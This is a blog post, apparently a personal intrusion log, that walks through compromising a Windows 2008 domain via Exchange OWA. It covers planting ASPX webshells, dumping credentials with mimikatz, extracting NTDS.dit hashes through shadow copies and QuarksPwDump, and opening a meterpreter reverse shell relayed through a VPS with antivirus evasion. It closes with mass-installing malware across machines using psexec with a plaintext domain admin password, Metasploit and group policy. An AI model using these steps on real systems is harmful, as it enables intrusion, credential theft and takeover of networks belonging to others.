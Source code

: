 ```yaml
---
layout:     post
title:      windows 2008 domain controllers
date:       2016-05-09
summary:    first time to get a domain controllers,this is not workgroup,but dc
categories: web
tags:
 - doamin controllers
 - inside network
 - aspx
 - exchange server
 - outlook
---
```


### 0x01 upload backup webshells

```
1.there exists a webshell upload by someone else:https://xx.oo.xx/owa/auth/error1.aspx
2.webshell in different folder has different privileges
    https://xx.oo.xx/aspnet_client/system_web/2_0_50727/some.aspx      C:\inetpub\wwwroot\> whoami ---> iis apppool\defaultapppool
    https://xx.oo.xx对应C:\inetpub\wwwroot\      目录下(index.html)   iis权限
    https://xx.oo.xx/owa/auth/some.aspx    C:\inetpub\wwwroot\> whoami ---> nt authority\system
    https://xx.oo.xx/owa/对应C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\ 目录 system权限
3.upload a strong webshell but found "/" error
    aspx大马连接报错"/"解决方法:https://www.asp-muma.com/?post=97
    my way defferent from uppon one:
    create a new folder,create a web.config file with below content:
    --------------------------content------------------------
    <configuration>
        <system.web>
            <customErrors mode="Off"/>
        </system.web>
    </configuration>
    --------------------------end of content----------------
    then upon a strong webshell to my new created folder,found no more error.
4.different parse 
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\xxoo\xxoo\大马.aspx is ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\xxoo\xxoo\一句话.aspx is not ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\一句话.aspx is ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\auth\一句话.aspx is ok to parse
    C:\inetpub\wwwroot\大马.aspx is not ok to parse before my "adding a new web.config" way in upon 3
    C:\inetpub\wwwroot\一句话.aspx is ok to parse,with iis pri
```

### 0x02 find domain controllers and dc administrator username & password
    https://drops.wooyun.org/tips/421 
        dsquery server(best)
        nslookup -type=SRV _ldap._tcp.baidu.com(baidu.com is a domain name,others should be like xxx.org.xx)
        netdom query fsmo

    mimikatz
        log
        privilege::debug
        sekurlsa::logonpasswords

    at 23:0 /every:m,t,w,th,f,s,su "d:\1.bat"
    d:\1.bat:
    "C:\recycler\srclog.exe" -w >> "C:\recycler\test.txt"

### 0x03 get all hashs in the domain controllers machine
    link a:
        https://drops.wooyun.org/tips/6617
    link b:
        https://blogs.msdn.microsoft.com/adioltean/2005/01/05/script-recipe-of-the-week-how-to-copy-an-opened-file/
    *attention*:
        in link a,the script name to use shadowcopy is vsshadow.exe
        in link b,the script name to use shadowcopy is vshadow.exe
    I get vshadow.exe from installing https://www.microsoft.com/en-us/download/confirmation.aspx?id=23490,then search vshadow.exe in the system,this is a quick link:
        https://pan.baidu.com/s/1cMC07W
    there are three files:shadowcopy_ntds.bat,quarkspwdump.exe(v0.2b),vshadow.exe
    step0:
        upload these three files to target machine's folder,eg. c:\windows\myfolder\
    step1:
        shadowcopy_ntds.bat c:\windows\ntds\ntds.dit c:\windows\myfolder\ntds.dit
        (this shadowcopy_ntds.bat is from link b,it can copy any file while the file is being used)
    step2:
        esentutl /p /o ntds.dit
    step3:
        QuarksPwDump.exe --dump-hash-domain -with-history -nt c:\windows\ntds\ntds.dit -o c:\windows\myfolder\log.txt
        (or quarkspwdump.exe --dump-hash-domain -hist -nt c:\windows\ntds\ntds.dit -o c:\windows\myfolder\log.txt)
        the origin commands from link a is "QuarksPwDump.exe -dhb -hist -nt ntds.dit -o log.txt",which proved wrong with my quarkspwdump.exe file

### 0x04 get a meterpreter reverse shell
    1.found windows firewall is not open on the target,but "in/out rules exists"
    2.found reverse port like 200 can not get it successfully
    3.can not find why the meterpreter shell can not reverse connecting msf successfully
    4.do these to get meterpreter reverse shell
        target:run reverse_shell.exe(set reverse port to 53)
        vps:lcx -listen 300 53
        local pc:msf-->set lport 300-->set rhost vps's ip
    5.found 53 is ok
    6.better to use shellter to supass avkiller

### 0x05 批量种马
    1>psexec.exe @pc.txt -u ABIMAQ\Administrator -p k78m90 -c c:\recycler\putty.exe
    2>msf
        use exploit/windows/smb/psexec
        set EXE::Custom /root/桌面/putty.exe
        set RHOST -> use armitage to choose pc.txt(192.168.11.1,192.168.11.2,etc)
        exploit
        [msf seems better than psexec.exe]
    3>empire框架中的new_gpo_immediate_task.py模块
        http://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/
    4>指派登录脚本,关机脚本,启动脚本
        https://technet.microsoft.com/zh-cn/library/cc731684(v=ws.11).aspx
        https://social.technet.microsoft.com/Forums/ru-RU/d14a3017-8ad8-4f89-a3ea-7b93fcfa3271?forum=windowsserversystemzhchs
    5>msf生成msi后用组策略管理编辑器添加安装msi的动作,详情如下图

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/%E5%9F%9F%E7%8E%AF%E5%A2%83%E6%89%B9%E9%87%8F%E5%AE%89%E8%A3%85msi.jpg">
